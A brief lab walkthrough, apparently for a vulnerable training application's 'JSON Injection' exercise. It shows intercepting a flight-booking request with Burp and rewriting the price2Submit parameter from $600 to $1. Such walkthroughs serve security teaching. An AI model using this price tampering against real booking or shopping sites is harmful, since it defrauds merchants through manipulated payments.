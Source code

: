 ## JSON Injection

From: 'BOS'

To: 'SEA'

You will see there are 2 radio buttons, select the one with 0 stops priced at $600 and click submit with burp (or other HTTP intercept tools)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%24600`

We observe that it is submitting `%24600` which translates to `$600`. Modify the following to make the flight priced cheaper (real cheap at $1!)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%241`
